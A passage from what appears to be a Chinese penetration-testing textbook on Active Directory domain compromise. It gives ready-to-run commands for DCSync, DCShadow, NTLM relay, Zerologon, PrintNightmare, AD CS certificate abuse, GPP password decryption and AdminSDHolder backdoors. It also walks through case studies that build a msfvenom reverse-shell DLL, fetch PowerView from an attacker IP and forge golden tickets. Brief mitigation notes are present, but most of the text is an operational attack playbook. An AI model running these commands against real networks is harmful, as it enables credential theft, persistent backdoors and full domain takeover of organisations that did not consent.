$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# 4. 设置目标机器的msDS-AllowedToActOnBehalfOfOtherIdentity
Get-DomainComputer target01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

# 5. 使用Rubeus进行S4U攻击
Rubeus.exe s4u /user:fake01$ /rc4:<fake01的NTLM哈希> /impersonateuser:Administrator /msdsspn:CIFS/target01.corp.com /ptt
```

**图55-3 委派攻击三种类型对比与利用流程图**



---

## 55.6 DCSync攻击

::: tip 什么是DCSync？
DCSync是一种攻击技术，
攻击者可以**模拟域控制器**，
向其他域控制器请求复制数据，
从而获取域内所有用户的哈希值。

DCSync不需要登录到域控，
只需要有相应的权限即可。
:::

### 55.6.1 DCSync原理

DCSync利用的是
**目录复制服务（Directory Replication Service，DRS）**协议。

正常情况下，
域控之间会通过这个协议
同步数据。

> 💡 **深入理解：DCSync 为什么这么"优雅"？——"合法权限的恶意使用"**
>
> DCSync 是域渗透中最高效的凭据获取手段之一。
> 它的精妙之处在于：**它根本不是"漏洞"！**
>
> DRS协议是微软设计用来让域控之间同步数据的合法协议。
> 一个域有多个域控时（DC01、DC02），
> 你在DC01上改了一个用户密码，
> DC02怎么知道？就是通过DRS复制过去的。
>
> DCSync利用的就是这个"域控之间的信任"：
> ```
> 攻击者（有DCSync权限的账户）
>    │
>    │  "嘿，DC02，我是新来的域控！
>    │   把最新的域数据（包括Hash）复制一份给我！"
>    │
>    ▼
> DC02（域控）
>    │  "哦，你有DS-Replication-Get-Changes权限？
>    │   那好，拿去吧！" ──► 返回所有用户数据和Hash！
> ```
>
> 整个过程没有利用任何代码漏洞！
> 只利用了**合法的协议** + **合法的权限**。
>
> 那需要什么权限？
> ```
> 默认有DCSync权限的：
> - Domain Admins（域管理员组）
> - Enterprise Admins（企业管理员组）
> - Domain Controllers（域控制器组）
> - Administrator（域管账户）
> ```
>
> 如果你拿下任何一个域管账户，就能DCSync。
> 这也是为什么域渗透中"拿到一个域管 = 拿到整个域"。
>
> DCSync的"优雅"在于：
> - 不需要登录域控（远程操作）
> - 不需要碰到NTDS.dit文件
> - 不触发文件访问日志
> - 只需要网络访问（DRS使用RPC，端口动态）
> - 一次请求拿到所有Hash
>
> 对比直接偷NTDS.dit：
> ```
> 方法一：直接读 NTDS.dit
>   需要：域控本地管理员 → 登上去 → 卷影复制 → 导出 → 离线解Hash
>   风险：有文件操作日志、有卷影复制日志
>
> 方法二：DCSync
>   需要：域管权限账户 → 远程通信 → 请求复制 → 直接拿到Hash
>   风险：少量的网络日志，但比其他方法干净得多
> ```
>
> 这就是为什么实战中红队偏爱 DCSync：
> **干净、高效、"合法"地拿走所有密码Hash。**

如果一个账户有以下权限，
就可以进行DCSync：
- **DS-Replication-Get-Changes**
- **DS-Replication-Get-Changes-All**
- **DS-Replication-Get-Changes-In-Filtered-Set**

默认情况下，
只有域管理员、企业管理员、
域控账户才有这些权限。

### 55.6.2 查找有DCSync权限的账户

```powershell
# PowerView（使用ConvertFrom-ADManagedPasswordBlob等）
# 或者使用BloodHound
# 在BloodHound中查询：
# MATCH (u:User {dcsync: true}) RETURN u.name

# 手动查找：
# 检查域根对象的ACL
Get-ObjectAcl -DistinguishedName "DC=corp,DC=com" -ResolveGUIDs | Where-Object {
    $_.ObjectType -match "replication"
}
```

### 55.6.3 DCSync攻击实战

**使用Mimikatz：**

```
# 提取所有用户的哈希
lsadump::dcsync /domain:corp.com /all /csv

# 提取指定用户的哈希
lsadump::dcsync /domain:corp.com /user:krbtgt
lsadump::dcsync /domain:corp.com /user:Administrator

# 指定域控
lsadump::dcsync /domain:corp.com /dc:dc01.corp.com /user:Administrator
```

**使用Impacket的secretsdump：**

```bash
# 远程DCSync
secretsdump.py corp.com/user1:Password123@10.0.0.1 -just-dc

# 只提取krbtgt
secretsdump.py corp.com/user1:Password123@10.0.0.1 -just-dc-user krbtgt

# 使用哈希进行DCSync
secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec82052ec409a62e1b5d8252 corp.com/Administrator@10.0.0.1 -just-dc
```

::: tip DCSync的输出
DCSync会输出所有用户的哈希，
格式通常是：
```
用户名:RID:LM哈希:NTLM哈希:::
```

比如：
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5fbc3d5fec82052ec409a62e1b5d8252:::
```

拿到这些哈希后，
就可以进行哈希传递、
制作黄金票据等操作了。
:::

### 55.6.4 给普通用户添加DCSync权限

在域渗透中，
有时我们会给普通用户
添加DCSync权限作为后门。

```powershell
# 使用PowerView给用户添加DCSync权限
Add-DomainObjectAcl -TargetIdentity "DC=corp,DC=com" -PrincipalIdentity user1 -Rights DCSync

# 移除权限
Remove-DomainObjectAcl -TargetIdentity "DC=corp,DC=com" -PrincipalIdentity user1 -Rights DCSync
```

**图55-4 DCSync攻击原理与流程时序图**



---

## 55.7 DCShadow攻击

::: tip 什么是DCShadow？
DCShadow是Mimikatz作者
Benjamin Delpy 发明的一种攻击技术。

它可以让一台**普通机器**
伪装成域控制器，
然后向真正的域控
复制数据。

简单来说，
就是**伪造一个域控来修改AD数据**。
:::

### 55.7.1 DCShadow原理

DCShadow的原理是：
1. 在目标机器上注册一个新的SPN
2. 伪造DRS（目录复制服务）连接
3. 向真实域控推送数据修改

DCShadow需要什么权限？
- 域管理员权限（或者等效权限）
- 机器的本地管理员权限

听起来好像没什么用，
因为已经有域管权限了。

但DCShadow有一个特点：
**修改数据不会留下日志**。

所以它通常用来：
- 隐蔽地添加后门用户
- 隐蔽地修改用户权限
- 清除日志痕迹

### 55.7.2 DCShadow攻击实战

**使用Mimikatz进行DCShadow：**

```
:: 第一步：提升权限
privilege::debug
token::elevate

:: 第二步：执行DCShadow
:: 给指定用户添加到域管理员组
lsadump::dcshadow /object:"CN=user1,CN=Users,DC=corp,DC=com" /attribute:memberOf /value:"CN=Domain Admins,CN=Users,DC=corp,DC=com"

:: 或者直接设置用户的adminCount属性
lsadump::dcshadow /object:"CN=user1,CN=Users,DC=corp,DC=com" /attribute:adminCount /value:1
```

**使用Impacket的dcshadow.py：**

```bash
# 给用户添加到组
dcshadow.py corp.com/Administrator:Password123@dc01.corp.com -object "CN=user1,CN=Users,DC=corp,DC=com" -attribute memberOf -value "CN=Domain Admins,CN=Users,DC=corp,DC=com"
```

::: warning 注意
DCShadow虽然隐蔽，
但也不是完全无法检测。

比如：
- 监控域内新注册的SPN
- 监控域控的复制连接
- 监控AD对象的异常修改

不过在实战中，
DCShadow确实是一种
很有效的权限维持手段。
:::

---

## 55.8 NTLM Relay攻击

::: tip 什么是NTLM Relay？
NTLM Relay（NTLM中继）
是一种经典的攻击方式。

简单来说，
攻击者把客户端的认证请求
**转发**给服务器，
从而冒充客户端访问服务器。

举个例子：
- A要访问B
- 攻击者M拦截了A的认证请求
- M把认证请求转发给C
- C以为是A在访问，就认证通过了
- M就以A的身份访问了C
:::

### 55.8.1 NTLM Relay原理

```
正常认证流程：
客户端 <-------> 服务器

中继攻击流程：
客户端 --认证请求--> 攻击者 --转发认证请求--> 服务器
客户端 <--质询------ 攻击者 <--质询----------- 服务器
客户端 --响应------> 攻击者 --转发响应--------> 服务器
                                               ↓
                                           认证通过！
```

**NTLM Relay的前提条件：**
1. 能够拦截或诱导客户端的认证请求
2. 目标服务器没有启用SMB签名
3. 被中继的账户有权限访问目标

### 55.8.2 诱导认证的方法

要进行NTLM Relay，
首先得让目标来认证你。

常用方法：

**方法一：Responder**
拦截网络中的LLMNR、NBT-NS、
MDNS请求，欺骗客户端来认证。

```bash
# 启动Responder
responder -I eth0 -wrf
```

**方法二：PetitPotam**
通过MS-EFSRPC协议，
让指定机器主动来认证你。

```bash
PetitPotam.py -d corp.com -u user1 -p Password123 攻击者IP 目标IP
```

**方法三：Printer Bug**
通过打印系统的远程过程调用，
让目标机器主动连接。

```bash
SpoolSample.py 目标IP 攻击者IP
```

**方法四：DFSCoerce**
通过DFS命名服务，
让目标机器主动来认证。

```bash
DFSCoerce.py 攻击者IP 目标IP
```

### 55.8.3 NTLM Relay实战

**使用Impacket的ntlmrelayx：**

```bash
# 基本用法：中继到指定目标
ntlmrelayx.py -smb2support -t smb://10.0.0.10

# 中继到多台机器
ntlmrelayx.py -smb2support -tf targets.txt

# 获取目标的SAM哈希
ntlmrelayx.py -smb2support -t smb://10.0.0.10

# 执行命令
ntlmrelayx.py -smb2support -t smb://10.0.0.10 -c "whoami"

# 交互式shell
ntlmrelayx.py -smb2support -t smb://10.0.0.10 -i

# 中继到LDAP（可以修改AD）
ntlmrelayx.py -t ldap://10.0.0.1 --no-wcf-server --escalate-user user1

# 中继到MSSQL
ntlmrelayx.py -t mssql://10.0.0.20
```

**配合Responder使用：**

```bash
# 终端1：启动ntlmrelayx
ntlmrelayx.py -smb2support -tf targets.txt

# 终端2：启动Responder（关闭SMB和HTTP服务器）
responder -I eth0 -wrf --disable-ess
```

### 55.8.4 中继到LDAP提权

这是一种非常厉害的攻击方式。
如果能中继到域控的LDAP服务，
可以直接给用户提权。

```bash
# 中继到LDAP，给指定用户添加DCSync权限
ntlmrelayx.py -t ldap://dc01.corp.com --escalate-user user1

# 中继到LDAP，创建机器账户并配置RBCD
ntlmrelayx.py -t ldap://dc01.corp.com --add-computer fake01$ --delegate-access
```

**图55-5 NTLM Relay攻击流程与中继目标图**



**图55-5b NTLM Relay中继目标与利用方式图**



---

## 55.9 Zerologon漏洞

::: tip 什么是Zerologon？
Zerologon，编号CVE-2020-1472，
中文叫"零登录"。

这是一个非常严重的漏洞，
攻击者可以在**没有任何凭据**的情况下，
直接获取域控的管理员权限。

漏洞出在Netlogon协议中，
由于使用了不安全的加密方式，
攻击者可以绕过认证。
:::

### 55.9.1 漏洞原理

Netlogon远程协议中
有一个加密计算的缺陷。

具体来说：
- 使用AES-128-CFB8加密
- IV（初始化向量）被设置为全零
- 当明文也是全零时，密文也是全零

攻击者可以利用这个漏洞，
将机器账户的密码重置为空，
然后就可以用空密码登录了。

### 55.9.2 漏洞检测

```bash
# 使用Impacket的检测脚本
# 下载：https://github.com/SecuraBV/CVE-2020-1472
python3 zerologon_tester.py DC01 10.0.0.1

# 或者用CrackMapExec
crackmapexec smb 10.0.0.1 -u '' -p '' --zero-logon
```

### 55.9.3 漏洞利用

```bash
# 使用impacket的secretsdump配合漏洞利用
# 1. 重置域控机器账户密码
python3 cve-2020-1472-exploit.py dc01 10.0.0.1

# 2. 使用空密码的机器账户进行DCSync
secretsdump.py -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 corp.com/dc01$@10.0.0.1 -just-dc

# 或者直接使用一体化工脚本
python3 zerologon.py corp.com/dc01@10.0.0.1
```

::: warning 严重警告
Zerologon漏洞利用会
**重置域控机器账户的密码**，
这可能导致域控
无法正常工作，
甚至从域中脱离。

**在生产环境中慎用！**

利用完成后，
记得把密码恢复回去。
:::

### 55.9.4 恢复密码

利用完漏洞后，
需要把机器账户的密码恢复回去，
不然会出问题。

```bash
# 1. 先获取原始的机器账户密码哈希（从注册表）
secretsdump.py corp.com/Administrator:Password123@10.0.0.1

# 2. 使用恢复脚本
python3 restorepassword.py corp.com/dc01@dc01.corp.com -target-ip 10.0.0.1 -hexpass <原始密码哈希>
```

---

## 55.10 PrintNightmare漏洞

::: tip 什么是PrintNightmare？
PrintNightmare，编号CVE-2021-1675 / CVE-2021-34527，
中文叫"打印噩梦"。

这是Windows打印后台处理服务
（Print Spooler）中的一个漏洞。

攻击者可以利用这个漏洞
在远程机器上执行任意代码，
而且危害特别大，
所以叫"打印噩梦"。
:::

### 55.10.1 漏洞原理

Windows Print Spooler服务
在处理打印作业时存在缺陷。

具体来说：
- RpcAddPrinterDriver函数可以用来添加打印机驱动
- 但是权限检查不严
- 普通用户也可以调用这个函数
- 攻击者可以加载恶意的驱动文件，执行任意代码

**影响范围：**
- Windows 7 / Windows Server 2008
- Windows 8 / Windows Server 2012
- Windows 10 / Windows Server 2016 / 2019
- （未打补丁的系统）

### 55.10.2 漏洞检测

```bash
# 使用CrackMapExec检测
crackmapexec smb 10.0.0.1 -u user1 -p Password123 -M printnightmare

# 或者使用专门的检测脚本
python3 PrintNightmare_detector.py 10.0.0.1
```

### 55.10.3 漏洞利用

**使用CVE-2021-1675脚本：**

```bash
# 1. 准备恶意DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=攻击者IP LPORT=4444 -f dll -o evil.dll

# 2. 搭建SMB共享（或者用WebDAV）
# 将evil.dll放在共享目录中

# 3. 执行漏洞利用
python3 CVE-2021-1675.py corp.com/user1:Password123@10.0.0.1 '\\攻击者IP\share\evil.dll'
```

**使用SharpPrintNightmare（C#版本）：**

```cmd
:: 本地提权
SharpPrintNightmare.exe C:\temp\evil.dll

:: 远程利用
SharpPrintNightmare.exe '\\攻击者IP\share\evil.dll' 10.0.0.1
```

**域控上的利用：**
PrintNightmare在域控上特别有用，
因为域控默认开启Print Spooler服务。

利用成功后，
可以直接拿到System权限，
然后Dump哈希、
添加域管理员等。

::: tip 缓解措施
临时缓解方法：
1. 停止Print Spooler服务
   ```cmd
   net stop spooler
   ```
2. 禁用入站远程打印

永久修复：
安装微软的安全补丁。
:::

**图55-6 域控经典漏洞利用对比图（Zerologon / PrintNightmare）**



---

## 55.11 认证胁迫技术

::: tip 什么是认证胁迫？
认证胁迫（Authentication Coercion）
就是**强迫目标机器主动来认证你**。

为什么需要这个？
因为进行NTLM中继、
非约束委派攻击等，
都需要目标主动来连接你。
:::

### 55.11.1 PetitPotam

PetitPotam利用的是
MS-EFSRPC（加密文件系统远程协议）
中的一个功能。

**原理：**
调用EfsRpcOpenFileRaw等函数，
可以让目标机器使用机器账户
向指定的服务器进行认证。

**使用方法：**

```bash
# 基础用法
PetitPotam.py 攻击者IP 目标IP

# 指定认证类型
PetitPotam.py -u user1 -p Password123 -d corp.com 攻击者IP 目标IP

# 使用其他接口
PetitPotam.py -method EfsRpcOpenFileRaw 攻击者IP 目标IP
```

**常见用途：**
- 配合NTLM Relay攻击
- 配合非约束委派获取TGT
- 配合AD CS攻击获取证书

### 55.11.2 Printer Bug（MS-RPRN）

Printer Bug利用的是
打印系统的MS-RPRN协议。

**原理：**
调用RpcRemoteFindFirstPrinterChangeNotificationEx，
可以让目标机器回连到攻击者。

**使用方法：**

```bash
# SpoolSample
SpoolSample.py 目标IP 攻击者IP

# 或者
printerbug.py corp.com/user1:Password123@目标IP 攻击者IP
```

### 55.11.3 DFSCoerce

DFSCoerce利用的是
DFS（分布式文件系统）命名服务。

**原理：**
通过DFS命名服务的API，
可以强迫目标机器进行认证。

**使用方法：**

```bash
# 基础用法
DFSCoerce.py -u user1 -p Password123 -d corp.com 攻击者IP 目标IP

# 详细模式
DFSCoerce.py -v -u user1 -p Password123 -d corp.com 攻击者IP 目标IP
```

### 55.11.4 其他认证胁迫方法

| 方法 | 协议 | 说明 |
|------|------|------|
| PetitPotam | MS-EFSRPC | 最常用，成功率高 |
| Printer Bug | MS-RPRN | 经典方法 |
| DFSCoerce | MS-DFSNM | DFS命名服务 |
| ShadowCoerce | MS-FSRVP | 卷影复制服务 |
| RemotePotato | COM | 跨会话中继 |
| GodPotato | COM | 本地提权/中继 |

---

## 55.12 AD CS攻击

::: tip 什么是AD CS？
AD CS（Active Directory Certificate Services）
是活动目录证书服务。

它是微软的公钥基础设施（PKI）
实现，用来颁发和管理数字证书。

如果配置不当，
AD CS可能被攻击者利用，
用来获取权限、
持久化、权限提升等。
:::

### 55.12.1 AD CS基础

**AD CS的角色：**
- 证书颁发机构（CA） - 颁发证书
- 证书注册 Web 服务 - Web方式注册
- 证书颁发机构 Web 注册 - Web页面注册
- 网络设备注册服务 - 网络设备证书
- 在线响应程序 - 证书吊销检查

**证书的用途：**
- 客户端认证
- 服务器认证
- 代码签名
- 加密文件系统（EFS）
- 智能卡登录
- 等等...

### 55.12.2 AD CS信息收集

```bash
# 使用Certify工具收集AD CS信息
Certify.exe cas

# 列出所有证书模板
Certify.exe find

# 列出有漏洞的模板
Certify.exe find /vulnerable

# 列出企业CA
Certify.exe find /enroll
```

### 55.12.3 常见AD CS攻击

**攻击一：ESC1 - 证书模板配置错误**

如果证书模板允许：
- 客户端认证
- 申请者可以指定主题备用名称（SAN）

那么攻击者可以申请一个
SAN为域管理员的证书，
然后用这个证书认证。

```bash
# 1. 查找有漏洞的模板
Certify.exe find /vulnerable

# 2. 申请证书，指定SAN为管理员
Certify.exe request /ca:CA01.corp.com\corp-CA01-CA /template:VulnTemplate /altname:administrator

# 3. 将证书转换为PFX格式
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx

# 4. 使用证书请求TGT
Rubeus.exe asktgt /user:administrator /certificate:cert.pfx /password:密码 /ptt
```

**攻击二：ESC3 - 证书代理**

如果有证书代理模板，
可以用它来代理其他用户的证书。

**攻击三：ESC4 - 模板权限配置错误**

如果对证书模板有写权限，
可以修改模板使其可被利用，
然后再改回去。

**攻击四：ESC6 - EDITF_ATTRIBUTESUBJECTALTNAME2**

如果CA启用了这个标志，
那么所有模板都可以指定SAN，
危害非常大。

**攻击五：ESC8 - HTTP中继攻击**

如果证书注册Web服务
启用了NTLM认证，
可以通过NTLM中继
获取任意用户的证书。

```bash
# 中继到AD CS的证书注册服务
ntlmrelayx.py -t http://ca01.corp.com/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

### 55.12.4 证书持久化

拿到域管理员权限后，
可以申请一个
域管理员的证书作为后门。

即使密码被修改，
证书仍然有效。

```bash
# 申请域管理员的证书
Certify.exe request /ca:CA01.corp.com\corp-CA01-CA /template:User /altname:administrator

# 保存好证书，以后随时可以用
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx /password:密码 /ptt
```

---

## 55.13 SYSVOL与GPP密码

::: tip 什么是GPP密码？
GPP（Group Policy Preferences）
是组策略首选项。

管理员可以用GPP来配置：
- 本地用户和组
- 驱动器映射
- 计划任务
- 服务
- 等等...

早期版本的GPP有一个问题：
**存储的密码可以被解密**。
:::

### 55.13.1 GPP密码原理

GPP会把配置信息
存储在SYSVOL共享的XML文件中。

如果配置了密码，
密码会被加密，
但是**加密的密钥是公开的**！

微软在MSDN上公布了AES密钥，
所以任何人都可以解密GPP密码。

**存储位置：**
`\\corp.com\SYSVOL\corp.com\Policies\{GPO-GUID}\Machine\Preferences\`

常见的包含密码的文件：
- `Groups.xml` - 本地组配置
- `Services.xml` - 服务配置
- `Scheduledtasks.xml` - 计划任务
- `DataSources.xml` - 数据源
- `Printers.xml` - 打印机
- `Drives.xml` - 驱动器映射

### 55.13.2 查找GPP密码

```bash
# 方法一：手动查找
# 挂载SYSVOL，搜索XML文件中的cpassword

# 方法二：使用PowerView
Get-GPPPassword

# 方法三：使用GPPPassword工具
# https://github.com/PowerShellMafia/PowerSploit

# 方法四：使用Impacket的smbclient
smbclient //10.0.0.1/SYSVOL -U user1%Password123
# 然后递归查找XML文件
```

**PowerView的Get-GPPPassword：**

```powershell
# 导入PowerView
IEX (New-Object Net.WebClient).DownloadString("http://攻击者IP/PowerView.ps1")

# 获取GPP密码
Get-GPPPassword

# 会输出找到的所有GPP密码，包括用户名、密码、所属GPO等
```

### 55.13.3 解密GPP密码

如果你找到了cpassword，
可以手动解密。

**使用PowerShell解密：**

```powershell
function Get-GPPPassword {
    param([string]$Cpassword)
    
    $Cpassword = $Cpassword.Replace(" ", "+")
    $Pad = 4 - ($Cpassword.Length % 4)
    if ($Pad -ne 4) {
        $Cpassword = $Cpassword.Substring(0, $Cpassword.Length + $Pad)
    }
    
    $EncryptedBytes = [System.Convert]::FromBase64String($Cpassword)
    $AesObject = New-Object System.Security.Cryptography.AesCryptoServiceProvider
    $AesKey = [byte[]]@(0x4e,0x99,0x06,0xe8,0xfc,0xb6,0x6c,0xc9,0xfa,0xf4,0x93,0x10,0x62,0x0f,0xfe,0xe8,0xf4,0x96,0xe8,0x06,0xcc,0x05,0x79,0x90,0x20,0x9b,0x09,0xa4,0x33,0xb6,0x6c,0x1b)
    
    $AesObject.IV = New-Object Byte[] 16
    $AesObject.Key = $AesKey
    $Decryptor = $AesObject.CreateDecryptor()
    $DecryptedBytes = $Decryptor.TransformFinalBlock($EncryptedBytes, 0, $EncryptedBytes.Length)
    
    [System.Text.Encoding]::Unicode.GetString($DecryptedBytes)
}

Get-GPPPassword -Cpassword "加密的cpassword值"
```

**使用gpp-decrypt工具（Kali自带）：**

```bash
gpp-decrypt <cpassword>
```

::: tip 补丁情况
微软在MS14-025补丁中
修复了这个问题。

打了补丁之后，
新创建的GPP不会再存储密码。
但是旧的GPP如果没修改过，
密码仍然存在。

所以在实战中
还是经常能找到GPP密码的。
:::

---

## 55.14 AdminSDHolder与SDProp

::: tip 什么是AdminSDHolder？
AdminSDHolder是活动目录中的
一个特殊对象。

它的作用是
**保护高权限账户的权限**。

每隔一段时间（默认60分钟），
SDProp（Security Descriptor Propagator）
进程会运行，
把AdminSDHolder的权限
复制给所有受保护的账户。

所以即使你修改了
管理员账户的ACL，
过一会儿也会被重置。
:::

### 55.14.1 受保护的账户

受AdminSDHolder保护的账户包括：
- Account Operators
- Administrator
- Backup Operators
- Domain Admins
- Domain Controllers
- Enterprise Admins
- Print Operators
- Read-only Domain Controllers
- Replicator
- Schema Admins
- Server Operators

这些账户的`adminCount`属性
会被设置为1。

### 55.14.2 AdminSDHolder后门

因为AdminSDHolder的权限
会被复制给所有受保护的账户，
所以如果我们修改了
AdminSDHolder的ACL，
就相当于给所有受保护的账户
都添加了权限。

这是一种非常隐蔽的
**域权限维持**方法。

**添加AdminSDHolder后门：**

```powershell
# 使用PowerView给用户添加AdminSDHolder的GenericAll权限
Add-DomainObjectAcl -TargetIdentity "CN=AdminSDHolder,CN=System,DC=corp,DC=com" -PrincipalIdentity user1 -Rights All

# 等待SDProp运行（默认60分钟）
# 或者强制运行
Invoke-SDPropagator
```

**强制SDProp运行：**

```
# 在域控上执行
# 修改DN的rootDomainNamingContext的updateSchemaNow属性
# 或者直接重启域控

# 使用命令行：
ldifde -i -f sdprop.ldf

# sdprop.ldf内容：
# dn:
# changetype: modify
# add: runProtectAdminGroupsTask
# runProtectAdminGroupsTask: 1
# -
```

### 55.14.3 检测AdminSDHolder后门

```powershell
# 查看AdminSDHolder的ACL
Get-ObjectAcl -DistinguishedName "CN=AdminSDHolder,CN=System,DC=corp,DC=com" -ResolveGUIDs

# 检查是否有可疑的权限
```

**图55-7 域渗透常用攻击方法全览与提权路径图**



---

## 📚 案例1：BloodHound分析域内攻击路径

### 场景描述
你通过钓鱼拿到了一台内网机器的权限，
用户是普通域用户 user1。

目标：找到从 user1 到域管理员的攻击路径。

### 攻击过程

**第一步：上传SharpHound收集信息**

```cmd
:: 在目标机器上运行SharpHound
SharpHound.exe -c All --outputdirectory C:\temp
```

收集完成后，
会生成一个zip文件，
把它下载到本地。

**第二步：导入BloodHound**

1. 启动Neo4j数据库
2. 启动BloodHound
3. 上传zip文件
4. 等待数据导入完成

**第三步：查找攻击路径**

在BloodHound的搜索框中
输入 user1，
右键点击用户节点，
选择 "Shortest Path to Domain Admins"。

分析结果：
```
user1 → 有GeneralWrite权限 → IT组 → 可以修改GPO → 
链接到ServerOU → 服务器上有域管登录 → 域管理员
```

**第四步：利用GPO提权**

根据BloodHound的分析，
user1对IT组有写权限，
而IT组对某个GPO有编辑权限。

```powershell
# 1. 将user1添加到IT组
Add-DomainGroupMember -Identity "IT Group" -Members user1

# 2. 使用SharpGPOAbuse修改GPO
SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author corp\Administrator --Command "cmd.exe" --Arguments "/c net localgroup administrators user1 /add" --GPOName "IT Server Policy"

# 3. 等待GPO刷新（或者强制刷新）
gpupdate /force

# 4. 服务器应用GPO后，user1就是本地管理员了
# 然后等域管登录这台服务器，窃取凭据
```

**第五步：获取域管权限**

在服务器上等待域管理员登录，
然后用Mimikatz导出凭据。

```
privilege::debug
sekurlsa::logonpasswords
```

拿到域管理员的哈希后，
使用哈希传递登录域控，
完成域渗透。

### 经验总结
1. BloodHound是域渗透的神器，一定要会用
2. 信息收集越全面，攻击路径越多
3. 不要忽略ACL、GPO等"配置类"的攻击面
4. 很多时候不需要0day，配置错误就能拿下域

---

## 📚 案例2：委派攻击拿下域控

### 场景描述
你通过信息收集发现
有一台Web服务器 web01
配置了**非约束委派**。

你已经控制了web01，
目标：拿下域控。

### 攻击过程

**第一步：确认非约束委派**

```powershell
# 检查web01是否配置了非约束委派
Get-NetComputer web01 -Properties TrustedForDelegation
```

输出显示 `TrustedForDelegation: True`，
确认配置了非约束委派。

**第二步：诱导域控认证**

使用Printer Bug让域控主动连接web01。

```cmd
:: 在web01上执行
:: 让域控dc01连接到web01
SpoolSample.exe dc01.corp.com web01.corp.com
```

或者使用PetitPotam：

```bash
PetitPotam.py -u user1 -p Password123 -d corp.com web01.corp.com dc01.corp.com
```

**第三步：导出域控的TGT**

```cmd
:: 监控票据
Rubeus.exe monitor /interval:5

:: 当检测到域控的票据时，导出
Rubeus.exe dump /service:krbtgt /user:dc01$
```

或者直接用Mimikatz：

```
sekurlsa::tickets /export
```

**第四步：使用TGT进行DCSync**

拿到域控的TGT后，
就可以用它来做DCSync了。

```cmd
:: 注入票据
Rubeus.exe ptt /ticket:ticket.kirbi

:: 使用Mimikatz进行DCSync
lsadump::dcsync /domain:corp.com /all
```

**第五步：获取域管理员权限**

拿到krbtgt的哈希后，
制作黄金票据，
永久控制整个域。

```
kerberos::golden /user:Administrator /domain:corp.com /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa /ptt
```

### 经验总结
1. 非约束委派非常危险，尽量不要配置
2. Printer Bug和PetitPotam是常用的认证胁迫手段
3. 拿到机器账户的TGT就可以DCSync
4. 定期检查域内的委派配置

---

## 📚 案例3：NTLM Relay从普通用户到域管

### 场景描述
你有一个普通域用户账号 user1，
密码是 Password123。

目标：提升到域管理员权限。

### 攻击过程

**第一步：扫描未启用SMB签名的机器**

```bash
# 使用CrackMapExec扫描
crackmapexec smb 192.168.1.0/24 -u user1 -p Password123 --gen-relay-list targets.txt
```

发现有几台机器没有启用SMB签名，
其中包括一台服务器 server01。

**第二步：启动NTLM Relay**

```bash
# 启动ntlmrelayx，中继到server01
ntlmrelayx.py -smb2support -tf targets.txt
```

**第三步：启动Responder捕获认证**

```bash
# 启动Responder
responder -I eth0 -wrf --disable-ess
```

等了一会儿，
捕获到了一个域管理员的认证请求，
成功中继到了server01。

**第四步：获取server01的本地管理员权限**

ntlmrelayx自动dump了server01的SAM哈希，
其中有本地管理员的哈希。

**第五步：登录server01，等域管登录**

使用哈希传递登录server01，
然后等待域管理员登录。

```bash
# 使用wmiexec登录
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa administrator@192.168.1.10
```

过了一会儿，
域管理员登录了这台服务器，
用Mimikatz导出了域管的哈希。

**第六步：登录域控**

拿到域管理员的哈希后，
直接登录域控。

```bash
psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:bbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb corp.com/Administrator@10.0.0.1
```

### 经验总结
1. NTLM Relay是一种非常有效的攻击方式
2. 很多企业的机器都没启用SMB签名
3. Responder + ntlmrelayx 是经典组合
4. 中继到LDAP可以直接提升域权限

---

## 📚 案例4：PrintNightmare域控提权

### 场景描述
你有一个普通域用户账号，
发现域控存在PrintNightmare漏洞。

目标：拿下域控的System权限。

### 攻击过程

**第一步：检测漏洞**

```bash
# 使用CME检测
crackmapexec smb 10.0.0.1 -u user1 -p Password123 -M printnightmare
```

输出显示存在漏洞。

**第二步：准备恶意DLL**

```bash
# 生成反弹shell的DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f dll -o evil.dll
```

**第三步：搭建SMB共享**

```bash
# 使用smbserver.py
smbserver.py share /path/to/dll -smb2support
```

**第四步：启动MSF监听**

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.100
set LPORT 4444
run
```

**第五步：执行漏洞利用**

```bash
# 使用Python版本的EXP
python3 CVE-2021-1675.py corp.com/user1:Password123@10.0.0.1 '\\192.168.1.100\share\evil.dll'
```

几秒钟后，
MSF收到了反弹的Meterpreter会话。

**第六步：验证权限**

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

成功拿到了域控的System权限！

**第七步：Dump哈希**

```
meterpreter > hashdump
```

拿到所有用户的哈希，
包括krbtgt，
制作黄金票据，
完成域的控制。

### 经验总结
1. PrintNightmare是一个威力巨大的漏洞
2. 域控默认开启Print Spooler服务
3. 打补丁是最好的防护方式
4. 临时缓解可以关闭Print Spooler服务

---

## 📚 案例5：GPP密码获取初始访问

### 场景描述
你在做一次红队评估，
目前还没有任何域内凭据。

目标：找到进入域的突破口。

### 攻击过程

**第一步：外网打点**

通过信息收集，
你发现了一个Web应用，
存在SQL注入漏洞。

利用SQL注入，
你拿到了一个Web服务器的权限。

**第二步：内网信息收集**

登录Web服务器后，
发现这台机器在域内。

```cmd
echo %userdomain%
CORP
```

但是当前用户是本地用户，
没有域账号。

**第三步：查找GPP密码**

你想到了GPP密码，
尝试访问SYSVOL。

```cmd
:: 尝试用空会话访问
net view \\corp.com\SYSVOL
```

失败了，需要凭据。

但是你在本地机器上
发现了一个脚本，
里面有一个服务账号的密码。

用这个账号尝试访问SYSVOL，
成功了！

**第四步：搜索GPP密码**

```powershell
